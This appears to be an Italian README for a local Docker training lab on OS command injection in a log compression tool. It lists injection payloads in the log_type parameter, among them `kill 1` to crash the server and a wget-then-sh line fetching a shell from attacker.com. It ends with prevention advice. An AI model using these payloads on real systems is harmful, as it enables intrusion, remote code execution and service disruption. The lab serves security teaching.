

# Laboratorio Command Injection

Questo laboratorio permette di testare vulnerabilità di tipo OS Command Injection tramite esempi pratici.

## Come usare il laboratorio

1. Avvia il servizio Command Injection tramite Docker Compose come indicato nel README principale.
2. Segui la guida sotto e osserva il comportamento dell'applicazione per capire se è vulnerabile.

### 1. Navigazione iniziale
Accedi all'applicazione all'indirizzo [http://localhost:7004](http://localhost:7004).


L'applicazione include due funzionalità:
- Log Viewer Tool: permette di visualizzare i log di sistema.
- Log Compression Tool: permette di comprimere i log di sistema in un file `.zip`.

### 2. Log Viewer Tool
Questa funzionalità permette di visualizzare i log di sistema e cambiare la formattazione di essi.


L'applicazione da frontend consente di scegliere fra 3 opzioneni di formattazione:
- Red
- Blue & bold
- Normal

questi valori sono poi passati a backend tramite il parametro `lines`. Questo parametro viene valorizzato nel seguente modo:
- Red -> `red`
- Blue & bold -> `blue`
- Normal -> `normal`

se proviamo a modifire il valore del parametro `lines` con, ad esempio:

```
`whoami`
```

otteniamo un errore di sistema:


da questo errore capiamo che questa api non è vulnerabile a command injection.
questo endpoint protrebbe essere vulnarabile ad altri tipi di injection, come ad esempio Code Injection, ma non è lo scopo di questo laboratorio.

### 3. Log Compression Tool
Questa funzionalità permette di comprimere i log di sistema in un file `.zip`.


L'applicazione da frontend consente di scegliere fra 2 opzioni di compressione:
- Access log
- Error log

questi valori sono poi passati a backend tramite il parametro `log_type`. Questo parametro viene valorizzato nel seguente modo:
- Access log -> `access`
- Error log -> `error`

se proviamo a modificare il valore del parametro `log_type` con, ad esempio:

```
test
```

possiamo notare che il valore che viene passato in input va costituire il nome del file da comprimere.


## 4. Attacco Command Injection

a questo punto possiamo provare ad inserire un payload di command injection, ad esempio:

```
`whoami`
```


In questo caso, il comando `whoami` viene eseguito sul server e il risultato viene incluso nel nome del file compresso. Questo dimostra che l'applicazione è vulnerabile a OS Command Injection.

### 5. Attacco Command Injection avanzato

Possiamo provare a eseguire un comando più complesso, ad esempio provare a killare il processo del web server.

```
`ps aux`
```

In questo modo non otteniamo nessun output, o meglio, ottieniamo un errore di sistema, ma non vediamo l'output del comando.
Quindi, per visualizzare l'output del comando possiamo provare ad sfruttare la funzionalità di Log Viewer Tool.
In questa funzionalità, abbiamo visto prima che ci sono 2 file di log:
- access_log.txt
- error_log.txt

con il seguente comando `ls ./` possiamo vedere se questi file si trovano diramettamente nella cartella dove si trova l'applicazione web:

```
`ls ./`
```

adesso che sappiamo che i file di log si trovano nella cartella dell'applicazione, proviamo ad inviare output dei comandi a uno di questi file, ad esempio:

```
`ps aux > access_log.txt`
```


sembrerebbe che non venga eseguito nulla, ma in realtà il comando viene eseguito correttamente, infatti se andiamo a visualizzare il file di log `error_log.txt` tramite la funzionalità di Log Viewer Tool, possiamo notare che il file è stato sovrascritto con l'output del comando `ps aux`.


Da questo output possiamo notare che il processo del web server ha PID 1, quindi possiamo provare a killare questo processo con il seguente comando:

```
`kill 1`
```


Dopo aver inviato la richiesta, il server web andrà in crash e non sarà più raggiungibile.



### 6. Note finali

- Questa vulnerabilità puo anche portare al remote code execution (RCE) se l'attaccante, sfruttando wget o curl, riesce a scaricare un web shell sul server vulnerabile. ad esempio:

```
`wget http://attacker.com/shell.sh -O /tmp/shell.sh`
```

e poi eseguire la shell:

```
`sh /tmp/shell.sh`
```

- In un contesto reale, è fondamentale validare e sanificare tutti i dati in input per prevenire vulnerabilità di questo tipo.
- Utilizzare sempre il principio del least privilege per limitare i danni in caso di compromissione.